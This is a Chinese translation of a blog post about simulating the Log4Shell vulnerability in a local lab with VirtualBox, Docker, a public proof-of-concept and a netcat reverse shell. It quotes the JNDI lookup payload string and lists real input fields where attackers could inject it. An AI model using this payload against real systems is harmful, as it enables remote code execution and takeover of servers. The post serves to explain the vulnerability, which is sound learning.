

# 模拟 Log4j 漏洞攻击服务器

> 原文：<https://levelup.gitconnected.com/simulating-the-log4j-exploit-to-hack-a-server-2d52269b2165>

米歇尔·勒恩斯在 [Unsplash](https://unsplash.com/s/photos/java?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) 上拍摄的照片。一张写着“log4shell”的图片本来是要花钱的，所以这里有一张 Java 的图片。

大约两周前，我写了一篇关于 Log4Shell 和有人如何在 GitHub 上创建一个漏洞利用的开源模拟的[通用帖子。我写道，他们的库是打算在 Ubuntu 等 Linux 发行版上运行的，尽管我确实创建了一个分支](https://evan-soohoo.medium.com/log4j-log4shell-a-software-feature-with-unintended-consequences-2b6441c1b265?source=user_profile---------1-------------------------------)[和一些为 Mac OSX 操作系统更新的路径。今天，我得到了利用 Ubuntu 工作。](https://github.com/EvanSooHoo/log4j-shell-poc)

关于 Log4j 漏洞的讨论仍在继续，特别是一个非常全面的计算机爱好者视频。这个频道的主持人详细讨论了 JNDI，编写了一个示例 Spring Boot 应用程序来强调依赖性，然后进行了一个关于开源的优点和缺点的更一般的对话。

# 实验继续进行

这个视频已经有点过时了；脚本已经过微妙的修改，这反映在自述文件中

VirtualBox 是一款免费的虚拟机管理程序，可以用于虚拟机。*黑客行动手册*建议您使用虚拟化来设置 Kali 和 Metasploitable，分别用于进攻和目标练习，尽管我将是第一个承认我没有读完整本书[。对于这个练习，Kali 和 Metasploitable 无关紧要…但是我确实认为这种测试环境是一个好主意。你可以免费使用 VirtualBox、Metasploitable 和 Kali 我们为此感谢开源。](https://www.amazon.com/Hacker-Playbook-Practical-Penetration-Testing/dp/1494932636)

根据 IBM 的一篇文章:

> 虚拟化使用软件在计算机硬件上创建一个抽象层，允许将单台计算机的硬件元素(处理器、内存、存储等)划分到多个虚拟计算机中，通常称为虚拟机(VM)。每个虚拟机都运行自己的操作系统(OS ),表现得像一台独立的计算机，即使它只运行在实际底层计算机硬件的一部分上…
> 
> **第 2 类虚拟机管理程序**在现有操作系统上作为应用程序运行。最常用于端点设备上运行替代操作系统，它们会带来性能开销，因为它们必须使用主机操作系统来访问和协调底层硬件资源。

我在一个外置硬盘上通过 VirtualBox 运行 Ubuntu。我分配了大量的磁盘空间，因为增加硬盘大小并不像你想象的那么简单。我尝试定期拍摄快照，这在虚拟机世界中可以被认为有点像视频游戏保存点。

在左边，我在一个文本字段中输入$ { JNDI:LDAP://localhost:1389/a }。在右边，我控制了一个假想的服务器(这只是概念验证中的 127.0.0.1 ),然后能够运行任意命令，比如 *ls*

## 127.0.0.1

在软件行业，我有一个很讨厌的事情，那就是当人们指责你不知道某事，而不是花十秒钟向你解释它。127.0.0.1 [称为本地主机或回送地址](https://www.lifewire.com/network-computer-special-ip-address-818385) —所有计算机都将此地址作为自己的地址，应用软件通常使用此地址进行测试。

严格来说， [127.0.0.1 和 localhost 并不意味着完全相同的东西](https://stackoverflow.com/questions/7382602/what-is-the-difference-between-127-0-0-1-and-localhost)…但它们通常解析为相同的东西。localhost 有用的一个例子是在 web 开发中；您可以使用 *npm 运行 serve，*然后在一个端口上检查 localhost，以查看您的网站实际托管在您的机器之外时的样子。

## netcat

[Netcat 是一个计算机网络实用程序](https://en.wikipedia.org/wiki/Netcat)。您可以使用它来“监听”一个端口，并且可以使用 Netcat 创建一个反向 shell。根据[网上的这篇文章](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/):

> 反向外壳是在连接上建立的外壳会话，从远程机器发起，而不是从攻击者的主机发起。成功利用远程命令执行漏洞的攻击者可以使用反向外壳获取目标机器上的交互式外壳会话，并继续他们的攻击。反向外壳还可以跨越 NAT 或防火墙。本文解释了反向 shells 在实践中是如何工作的，以及您可以做些什么来防止它们…

反向外壳有合法的管理员用途，但也是黑客的绝佳工具。它们代表了将要执行的任意和/或恶意命令的访问点，这正是 Log4shell 概念验证中所发生的情况。

## 码头工人

你可以下载一个单独的目标应用程序，就像他们在上面的 hak5 视频中所做的那样，但是 [Docker](https://docs.docker.com/get-started/overview/) 让事情变得简单了一些。您可以部署一个容器，这可能比其他方法更快。Docker 没有过多地讨论可能是它自己的帖子的主题，而是帮助软件开发人员解决环境设置问题，这可能是业界最令人沮丧的障碍之一。

## 最终注释

*   我举的例子最像 github 上的[第一个视频，但是我可以使用 netcat](https://github.com/kozmer/log4j-shell-poc)
*   我有一个正在进行的“笑话”，在这个笑话中，我给人们发了“$ { JNDI:LDAP://localhost:1389/a }”消息，说我正在黑他们。现实生活中的黑客要比这复杂得多，但只是一点点。攻击者可以把这个放进《我的世界》的聊天室。攻击者可以将它放入桌面应用程序的搜索栏中。攻击者可以将其放入登录页面的用户字段。现实生活中的黑客不会使用本地主机，尽管……“本地主机”可能是他们拥有的外部设备的 IP
*   这项工作由一个名为 Exploit.java 的 40 行 Java 文件完成，该漏洞允许您运行该文件
*   获取易受攻击的 Java 版本花了我一分钟的时间。我下载了错误的版本，并花了一段时间来找出问题所在。我知道我并不孤单，因为[我浏览了一些问题](https://github.com/kozmer/log4j-shell-poc/issues?q=is%3Aissue+is%3Aclosed)
*   当这个概念证明有效时，这是非常明显的。您运行 netcat 的窗口将成功建立连接，您将可以自由地运行 *ls* 和任何您想尝试的东西

# 更长的讨论

《计算机爱好者》的主持人详细讲述了 JNDI，然后迈克讲述了他自己易受攻击的研究应用程序，并编写了简单的 Java 代码来阐述他的观点。他们花了大约半个小时谈论软件开发，而不是网络安全。

首先，与此相关的一切都是一个有意的*特性*的结果。他们敦促软件开发人员尽量保持简单，不要添加不必要的东西，除非他们决定建立一个全新的库。但是开源软件，用他们的话说，是一把双刃剑。这可能是某人作为业余爱好开发的。这个功能大概是出于好意，免费送给全世界的。

可惜没人赢。修补这是一个痛苦。

# 结束语

我不确定在这里放什么，所以这里有两只柯基犬在玩绳球。